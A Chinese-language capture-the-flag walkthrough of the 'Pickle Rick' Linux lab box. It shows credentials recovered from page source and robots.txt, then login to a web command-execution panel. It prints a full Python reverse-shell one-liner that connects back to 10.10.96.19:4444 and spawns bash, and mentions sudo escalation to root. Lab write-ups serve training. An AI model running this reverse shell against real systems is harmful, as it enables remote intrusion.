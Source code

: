 ```yaml
---
sidebar_position: 4
tags: [Easy, Linux, 信息泄露, 命令执行, SUDO]
title: Pickle Rick
---
```

# Pickle Rick
## 端口扫描
![20240525123533](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123533.png)
![20240525123539](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123539.png)
#
## 80
![20240525123652](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123652.png)

查看网页根据其内容提示我们需要找到某些东西

![20240525123554](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123554.png)

:::tip
此时如果查看网页源码可以发现提示了一个用户名称 : `R1ckRul3s`
:::

![20240525123637](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123637.png)

在其中我们发现 robots.txt 文件给出了一段字符串 Wubbalubbadubdub

![20240525123707](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123707.png)

并且我们发现了一个登陆窗口, 我们尝试使用上面的内容作为账号和密码进行登陆, 发现可以登陆成功, 并且发现这其实是一个命令执行窗口, 所以我们可以尝试在此获取 SHELL

![20240525123721](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123721.png)

## 后渗透
### www-data

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.96.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
![20240525123743](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123743.png)

### www-data —> root
我发现用户 www-data 具有 SUDO 特权可以直接获取权限
![20240525123805](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123805.png)

![20240525123955](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525123955.png)
